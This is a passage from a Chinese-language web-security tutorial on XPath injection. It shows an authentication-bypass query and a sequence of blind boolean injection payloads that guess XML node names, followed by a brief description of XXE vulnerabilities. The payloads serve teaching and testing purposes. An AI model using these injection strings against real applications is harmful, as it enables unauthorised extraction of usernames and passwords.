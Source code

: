 则查询语句变为

```
/manager/admin[username/text()='' or 1=1 or ''='' and passwd/text()='1']
```

则用户可以获得所有的用户名和密码

**盲注**

xpath的盲注类似于sql的布尔盲注，没有错误回显的情况下，通过布尔来进行猜测,假设有如下xml结构

```xml
<?xml version="1.0" encoding="UTF-8"?>
<fumo>
    <user>
        <username>uu2</username>
        <password>uu2</password>
    </user>
</fumo>
```

基本顺序

1.判断根节点下的节点数

2.判断根节点下长度和名称

3.重复判断，猜解完所有节点

```xml
猜解根节点
'or count(/)=1  or ''=' <!--只有一个根节点-->
'or count(/*)=1 or ''=' <!--根节点下中有一个子节点-->
判断根节点下的节点长度
'or string-length(name(/*[1]))=4 or ''=' <!--返回true则长度为4-->
判断根节点下子节点的名称
'or substring(name(/*[1]), 1, 1)='f'  or ''='
'or substring(name(/*[1]), 1, 1)='u'  or ''='
.....
'or substring(name(/*[1]), 4, 1)='o'  or ''=' <!--最终得到名称fumo-->
猜解fumo下的子节点数量
'or count(/fumo/*)=1 or ''=' 有一个子节点
'or string-length(name(/fumo/*[1]))=4  or ''=' <!--长度为4-->
猜测名称
//user[position()=1]：这会读出XML文档中排在第一位的用户。这里的user是一种假设.
(//user[position()=1]/child::node()[position()=1])读取第一个用户的子节点，即username
通过substring,或是string-length即可查询长度，只需要修改position的长度即可
```

## XXE

**原理**

```
XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件和代码，造成任意文件读取、命令执行、内网端口扫描、攻击内网网站、发起Dos攻击等危害。
通常产生该漏洞的位置都是能够上传xml文件的位置，或者是能够传递外部实体；
解析xml在php库libxml，libxml>=2.9.0的版本中没有XXE漏洞。
simplexml_load_string()可以读取XML
```
